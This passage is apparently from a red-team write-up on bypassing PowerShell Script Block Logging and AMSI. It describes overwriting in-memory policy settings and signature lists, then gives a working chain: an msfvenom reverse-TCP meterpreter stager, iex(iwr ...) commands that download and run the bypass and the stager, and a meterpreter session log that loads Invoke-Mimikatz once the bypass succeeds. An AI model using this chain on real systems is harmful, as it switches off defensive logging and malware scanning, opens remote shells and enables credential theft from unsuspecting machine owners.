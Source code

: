 It works by doing two things:

1. disable global logging of scripts: if Domain Admins enable global logging of scripts, every script will be recorded on the disk. To disable it we just overwrite the in-memory representation of the Group Policy Settings.
2. replace the dictionary of known signatures with an empty one: some signatures always trigger a log action, even if the Script Block Logging mechanism is not enabled via Group Policy (_sic!_). In order to disable it, we replace this dictionary of known signatures with an empty one, always in our memory space.


### Meterpreter

We can use the bypass to first spawn a meterpreter instance via PowerShell and then to execute any `*.ps1` scripts. A [PR](https://github.com/rapid7/rex-powershell/pull/17) do it automagically is on its way.
For now, to spawn it we need to generate the stager via the following command:

```asd
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=3000 LHOST=127.0.0.1 -f psh > meter.ps1
```

and execute the bypass before it:

```powershell
iex(iwr https://127.0.0.1/Invoke-Bypass.ps1)
Invoke-BypassScriptBlockLog
Invoke-BypassAMSI
iex(iwr https://127.0.0.1/meter.ps1)
```

We can also use the AMSI bypass to execute arbitrary PowerShell code on the machine from a meterpreter session. If we try to _execute_ `'amsiutils'` in a PowerShell session you will get something like this:

```asd
msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_execute "'amsiutils'"
[+] Command execution completed:
ERROR:
```

but if we import [Invoke-Bypass](https://github.com/d0nkeys/redteam/blob/master/code-execution/Invoke-Bypass.ps1) and execute the bypasses, we are then allowed to run any kind of command, including, for example, [Invoke-Mimikatz](https://github.com/d0nkeys/redteam/blob/master/credentials/Invoke-Mimikatz.ps1).

```
meterpreter > powershell_import Invoke-Bypass.ps1
[+] File successfully imported. No result was returned.
meterpreter > powershell_execute "Invoke-BypassScriptBlockLog"
[+] Command execution completed:

meterpreter > powershell_execute "Invoke-BypassAMSI"
[+] Command execution completed:

meterpreter > powershell_execute "'amsiutils'"
[+] Command execution completed:
amsiutils

meterpreter > powershell_import Invoke-Mimikatz.ps1
[+] File successfully imported. No result was returned.
meterpreter > powershell_execute "Invoke-Mimikatz -Command coffee"
[+] Command execution completed:

```